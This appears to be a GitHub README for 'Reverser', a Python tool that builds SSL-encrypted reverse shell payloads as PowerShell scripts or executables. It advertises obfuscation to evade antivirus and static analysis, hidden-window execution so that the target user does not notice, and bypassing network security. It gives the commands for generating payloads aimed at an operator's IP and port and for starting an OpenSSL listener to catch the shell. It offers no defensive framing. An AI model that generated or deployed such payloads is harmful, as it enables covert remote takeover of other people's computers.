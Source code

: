 # Reverser Tool

**Reverser** is a Python-based tool designed to generate reverse shell payloads with SSL encryption. The tool provides the ability to create either a PowerShell script (`.ps1`) or an executable file (`.exe`) that establishes a secure reverse shell connection to a specified IP address and port.

## Features

- **SSL Encryption**: The tool generates an SSL certificate and key to encrypt the reverse shell communication, enhancing security and bypassing basic network security measures.
- **Payload Generation**: Users can generate either a PowerShell script or an executable file. The payload is obfuscated to avoid detection by antivirus software.
- **Randomized Obfuscation**: The tool can randomize the obfuscation of the payload to further reduce the chance of detection by static analysis tools.
- **Hidden Execution**: Both the PowerShell script and the executable are designed to run in a hidden window, minimizing the likelihood of detection by the target user.
- **Auto-generated Files**: The executable file, when run, generates the PowerShell script on disk, hides it, and executes it to establish the reverse shell connection.
- **Customizable**: The IP address, port, and output file names can be customized through command-line arguments.

## Usage

1. **Generating an SSL Certificate**:
   The tool automatically generates an SSL certificate and key that will be used to encrypt the reverse shell communication.

2. **Generating a Payload with Obfuscation**:
   - To generate a PowerShell script:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type ps1
     ```
   - To generate an executable:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type exe
     ```

3. **Generating a Payload with Random Obfuscationn**:
   - To enable randomized obfuscation:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type <exe | ps1> -random
     ```

4. **Starting an SSL Listener**:
   Once the payload is generated, start an OpenSSL listener on your machine to accept the reverse shell connection:
   ```bash
   openssl s_server -accept <Your_Port> -cert reception.pem -key reception.key -quiet
